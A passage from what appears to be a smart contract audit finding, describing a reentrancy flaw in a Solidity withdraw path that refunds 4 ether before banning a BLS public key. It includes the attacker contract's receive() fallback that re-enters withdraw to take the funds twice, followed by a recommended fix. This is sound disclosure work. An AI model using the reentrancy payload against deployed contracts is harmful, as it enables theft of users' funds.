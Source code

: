 the function call is 

pass.withdraw("publicKeys1"), which calls

```solidity
function withdraw(bytes calldata _blsPublicKeyOfKnot) external {
	IManager(manager).withdrawETHForKnot(address(this), _blsPublicKeyOfKnot);
}
```

which trigger:

```solidity
// refund 4 ether from smart wallet to node runner's EOA
IOwnableSmartWallet(associatedSmartWallet).rawExecute(
	_recipient,
	"",
	4 ether
);
```

which triggers reentrancy to withdraw the fund again before the public key is banned.

```solidity
receive() external payable {
	if(!state) {
		state = true;
		this.withdraw("publicKeys1");
	}
}
```


## Tools Used

Manual Review

## Recommended Mitigation Steps

We recommend ban the public key first then send the fund out, and use openzeppelin nonReentrant modifier to avoid reentrancy.

```solidity

// update the mapping
bannedBLSPublicKeys[_blsPublicKeyOfKnot] = associatedSmartWallet;

// refund 4 ether from smart wallet to node runner's EOA
IOwnableSmartWallet(associatedSmartWallet).rawExecute(
	_recipient,
	"",
	4 ether
);
```
